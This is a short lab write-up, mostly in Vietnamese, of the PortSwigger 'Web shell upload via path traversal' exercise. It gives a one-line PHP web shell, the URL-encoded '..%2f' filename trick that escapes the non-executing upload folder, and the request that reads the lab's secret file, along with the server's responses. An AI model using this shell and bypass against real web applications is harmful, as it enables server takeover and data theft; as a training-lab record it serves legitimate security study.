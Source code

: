 # [Lab: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a  [secondary vulnerability](https://portswigger.net/web-security/file-path-traversal).

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file  `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution
Tóm tắt: thay đổi filename trong request để thay đổi thư mục upload file

upload avatar là file php:

```
<?php echo system($_GET['command']); ?>
```

truy cập vào file php đó:

```
https://0a9200a6049a5b49c15c543200b800c8.web-security-academy.net/files/avatars/test.php
```

=\> phản hồi:

```
<?php echo system($_GET['command']); ?>
```

=\> file không được thực thi

Thay đổi tên file bằng burpsuite:

```
filename="../test.php"
```

Kết quả:

```
The file avatars/test.php has been uploaded.
```

=\> đoạn trước dấu / đã bị xóa. Thử thay / bằng %2f

```
filename="..%2ftest.php"
```

Kết quả:

```
The file avatars/../test.php has been uploaded.
```

Lấy flag:

```
GET /files/test.php?command=cat+/home/carlos/secret HTTP/1.1
```

Response:

```
0UWTHWbPJQu9iZI9NlMlANp53tegmyhJ0UWTHWbPJQu9iZI9NlMlANp53tegmyhJ
```

bị x2?